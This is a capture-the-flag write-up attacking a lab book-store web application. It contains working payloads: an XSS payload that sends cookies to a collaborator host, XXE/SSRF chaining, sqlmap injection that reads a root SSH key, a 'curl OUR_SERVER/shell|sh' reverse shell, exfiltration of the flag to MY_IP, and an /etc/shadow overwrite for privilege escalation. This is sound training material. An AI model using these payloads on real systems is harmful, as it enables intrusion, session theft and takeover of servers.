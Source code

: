 In this challenge by John Hammond we are presented with a web site where we can browse book by category, author, and so on.

![[Screenshot 2024-04-05 alle 08.49.57.png]]![[Screenshot 2024-04-05 alle 08.50.03.png]]

We also have a login form but registration is not active at the moment.

![[Screenshot 2024-04-05 alle 08.51.15.png]]

Basic tampering with login form does not reveal anything, so we start with basic recon using tools like `gobuster`. 

```
/authors              (Status: 200) [Size: 3773]
/categories           (Status: 200) [Size: 7751]
/dashboard            (Status: 302) [Size: 235] [--> /login?next=%2Fdashboard]
/login                (Status: 200) [Size: 3332]
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/register             (Status: 200) [Size: 3179]
/sitemap.xml          (Status: 200) [Size: 915]
```

We observe that we can browse

 - by category `/categories/38940c5d-6332-4328-84b3-2acef194cb8b`
 - by book inside a given category: `/categories/38940c5d-6332-4328-84b3-2acef194cb8b/books/1`

Looking at `/sitemap.xml` we notice eight categories, while in home page we only had seven. If we try to access the "hidden" category `/categories/2d340d76-cc36-4554-9d40-577e164603dd` we get an error message:

```json
{
  "error" : "Sorry, these items are not available in your region. This area is only accessible by local staff or specific geographic locations."
}
```

We can bypass this restriction adding an `X-Forwarded-For: 127.0.0.1` agent.

![[Screenshot 2024-04-05 alle 09.18.49.png]]

Moreover, we can edit books with id 7 and 8:

![[Screenshot 2024-04-05 alle 09.19.55.png]]

With this edit functionality we have a classic XXE vulnerability (that can give us /etc/hosts) and a SSRF in the coverImageUrl
With the coverImageUrl set to `http://api/swagger.json` we discover endpoints like 

```
/categories/2d340d76-cc36-4554-9d40-577e164603dd/books/7/submit-ticket-request-for-review
```

So our idea is:

1. edit book id 7 with a XSS parameter

```xml
<book>
    <title>Test Book A</title>
    <author>Alan Turing</author>
    <description>&lt;img src=x onerror="this.src='//COLLAB/?'+btoa(document.cookie); this.removeAttribute('onerror');"&gt;</description>
    <price>1.0</price>
    <publishDate>2024-02-29</publishDate>
    <coverImageUrl>http://example.com/cover7.jpg</coverImageUrl>
</book>
```

2. edit book id 8 with 
   
```xml
   <coverImageUrl>http://api/categories/2d340d76-cc36-4554-9d40-577e164603dd/books/7/submit-ticket-request-for-review</coverImageUrl>
```


Our collaborator receives a GET request with session cookies:
```
GET /?c2Vzc2lvbj0uZUp3ZHpqRU93ekFJUU5HN2VPNkFBUnZJWlNLRHNWS3BVNkpPVmVfZXFOTmZfdkEtWlY5blhrZloxbmhkLVNqN2M1YXRvQVBQMUFnQlpOWEF3QW05VWx2TFduU1cycTNSd1BCN3lzSEpNWVJkclN1eXVCaVBVQjN1VGlvTzRjTFZRVHFKSW1XeTZWMHdFMXJhRVFWakxoWWtRUmlWdEpVYjhyN3lfR3ZxOXdkY0x5M2MuWmctbmJRLlJORFl5VmFFRUJFQnhrVnRiSzVZanJ5SEY2UQ== HTTP/1.1
```

With this cookie we have access to the book store dashboard

![[Screenshot 2024-04-05 alle 09.27.23.png]]

where we see two functionalities: edit book, and apparently run commands on the db server (but we need an SSH private key which we do not have).

We probably have a SQL injection with requests like:

```
POST /add-book HTTP/1.1
title=1&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05"

{"error":"Error: 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\"2024-04-05\"\",TRUE)' at line 1"}
```

Easiest way to proceed is saving a complete HTTP request to `/add-book` endpoint and run a `sqlmap -r --batch`:

```
sqlmap identified the following injection point(s) with a total of 640 HTTP(s) requests:
---
Parameter: title (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)
    Payload: title=1" AND ELT(4932=4932,9451) AND "Wduy"="Wduy&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: title=1" AND GTID_SUBSET(CONCAT(0x717a7a6b71,(SELECT (ELT(1936=1936,1))),0x7171627a71),1936) AND "jhTF"="jhTF&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=1" AND (SELECT 9182 FROM (SELECT(SLEEP(5)))unLE) AND "Wdxu"="Wdxu&category_id=2&author_id=3&description=4&price=1&cover_image_url=&publish_date=2024-04-05
```

Armed with this knowledge we get db container root ssh key: `sqlmap -r req.txt  --batch --file-read /root/.ssh/id_rsa` and we can get a reverse shell on it: 

```
POST /database-debug HTTP/1.1
...
ssh_private_key=-----BEGIN+OPENSSH+PRIVATE+KEY-----...&command=id


{"message":"Command ran successfully, output: b'uid=0(root) gid=0(root) groups=0(root)\\n'"}
```

Here we get an api admin token:

```bash
root@db:~# cat .api_admin_token.txt
JVU...
```

Now for simplicity we download a static curl binary on db container and we attack the `/other/debug-exec` endpoint on api container:

```bash
wget https://github.com/moparisthebest/static-curl/releases/download/v8.7.1/curl-amd64
chmod +x curl-amd64

./curl-amd64 -H 'Content-Type: application/json' --data '{"command":"curl OUR_SERVER:8000/shell|sh","admin_token":"JVU..."}' http://api/other/debug-exec
```


Once we have a reverse shell on api container we look at `.bash_history` where we get ssh password for accessing the main www container

```bash
root@api:~# cat .bash_history
ls
whoami
ls
cd /tmp
pwd
sshpass -p ****** ssh www-admin@www
cd
date
ls
```

We now have a couple of options:

```
www-admin@www:~$ ps -edaf
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 06:48 ?        00:00:00 /bin/sh -c service ssh start && .echo "; use 'www', 'api',
root           7       1  0 06:48 ?        00:00:00 su www-admin -c python3 -m flask run --host=0.0.0.0 --port
root           8       1  0 06:48 ?        00:00:01 python3 -m http.server --bind 127.0.0.1 80
www-adm+      15       7  1 06:48 ?        00:01:04 python3 -m flask run --host=0.0.0.0 --port=5000
root          18       1  0 06:48 ?        00:00:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root        6844      18  0 07:58 ?        00:00:00 sshd: www-admin [priv]
www-adm+    6851    6844  0 07:58 ?        00:00:00 sshd: www-admin@pts/0
www-adm+    6852    6851  0 07:58 pts/0    00:00:00 -bash
www-adm+    6859    6852  0 07:59 pts/0    00:00:00 ps -edaf


www-admin@www:~$ sudo -l
[sudo] password for www-admin:
Matching Defaults entries for www-admin on www:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-admin may run the following commands on www:
    (ALL) /usr/bin/curl 127.0.0.1/*
```

1. we have a web server running as root listening on `127.0.0.1:80`. The document root is `/app`, where we have write permissions, so we can simply link /root/flag.txt and grab the flag:
```bash
cd /app
ln -s /root/flag.txt
curl 127.0.0.1/flag.txt
```

2. we can leverage curl to exfiltrate the root flag with a command like:
   `sudo curl 127.0.0.1/=@/root/flag.txt -F data=@/root/flag.txt MY_IP:8000`

3.  we can use curl to overwrite `/etc/shadow` and get a shell as root:
```bash
cd /app
ln -s /etc/shadow
curl 127.0.0.1/shadow -o pwn
sed -i -e 's/\*//' pwn
sudo curl 127.0.0.1/pwn -o /etc/shadow
su -
root@www:~# id
uid=0(root) gid=0(root) groups=0(root)
```

![[Screenshot 2024-04-04 alle 22.37.16.png]]
